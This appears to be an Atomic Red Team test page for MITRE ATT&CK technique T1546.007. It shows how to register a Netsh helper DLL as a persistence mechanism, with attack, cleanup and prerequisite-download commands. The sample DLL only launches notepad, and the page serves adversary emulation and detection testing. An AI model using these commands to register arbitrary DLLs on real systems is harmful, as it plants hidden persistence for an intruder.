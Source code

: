 # T1546.007 - Event Triggered Execution: Netsh Helper DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/007)
<blockquote>

Adversaries may establish persistence by executing malicious content triggered by Netsh Helper DLLs. Netsh.exe (also referred to as Netshell) is a command-line scripting utility used to interact with the network configuration of a system. It contains functionality to add helper DLLs for extending functionality of the utility.(Citation: TechNet Netsh) The paths to registered netsh.exe helper DLLs are entered into the Windows Registry at <code>HKLM\SOFTWARE\Microsoft\Netsh</code>.

Adversaries can use netsh.exe helper DLLs to trigger execution of arbitrary code in a persistent manner. This execution would take place anytime netsh.exe is executed, which could happen automatically, with another persistence technique, or if other software (ex: VPN) is present on the system that executes netsh.exe as part of its normal functionality.(Citation: Github Netsh Helper CS Beacon)(Citation: Demaske Netsh Persistence)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Netsh Helper DLL Registration](#atomic-test-1---netsh-helper-dll-registration)


<br/>

## Atomic Test #1 - Netsh Helper DLL Registration
You can register a "helper dll" with Netsh as a persistance mechanism. The code in the dll is executed every time netsh.exe is called.
The NetshHelper.dll provided with the atomic will simply launch notepad when netsh.exe is run.

[Blog](https://htmlpreview.github.io/?https://github.com/MatthewDemaske/blogbackup/blob/master/netshell.html)
[Sample DLL code](https://github.com/outflanknl/NetshHelperBeacon)

**Supported Platforms:** Windows


**auto_generated_guid:** 3244697d-5a3a-4dfc-941c-550f69f91a4d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| helper_file | Path to DLL | path | PathToAtomicsFolder&#92;T1546.007&#92;bin&#92;NetshHelper.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
netsh.exe add helper "#{helper_file}"
taskkill /im notepad.exe /t /f > NUL 2>&1
```

#### Cleanup Commands:
```cmd
netsh.exe delete helper "#{helper_file}"
```



#### Dependencies:  Run with `powershell`!
##### Description: Helper DLL must exist on disk at specified location (#{helper_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{helper_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{helper_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.007/bin/NetshHelper.dll" -OutFile "#{helper_file}"
```




<br/>
